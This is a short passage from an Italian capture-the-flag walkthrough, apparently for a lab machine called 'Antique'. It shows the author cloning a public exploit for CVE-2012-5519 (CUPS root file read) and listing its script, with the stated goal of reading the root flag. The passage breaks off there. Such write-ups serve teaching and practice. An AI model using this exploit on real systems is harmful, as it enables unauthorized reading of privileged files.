 ![Desktop View](/assets/img/antique/antique-cups-exploit.png)

Questa è perfetta per permetterci di leggere la root flag. Usiamo l'exploit.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $git clone https://github.com/p1ckzi/CVE-2012-5519.git
Cloning into 'CVE-2012-5519'...
remote: Enumerating objects: 42, done.
remote: Counting objects: 100% (42/42), done.
remote: Compressing objects: 100% (37/37), done.
remote: Total 42 (delta 12), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (42/42), 17.93 KiB | 162.00 KiB/s, done.
Resolving deltas: 100% (12/12), done.
┌─[dua2z3rr@parrot]─[~]
└──╼ $cd CVE-2012-5519/
┌─[dua2z3rr@parrot]─[~/CVE-2012-5519]
└──╼ $ls -al
total 28
drwxr-xr-x 1 dua2z3rr dua2z3rr    70 17 set 21.32 .
drwxr-xr-x 1 dua2z3rr dua2z3rr  1726 17 set 21.32 ..
-rw-r--r-- 1 dua2z3rr dua2z3rr 13027 17 set 21.32 cups-root-file-read.sh
```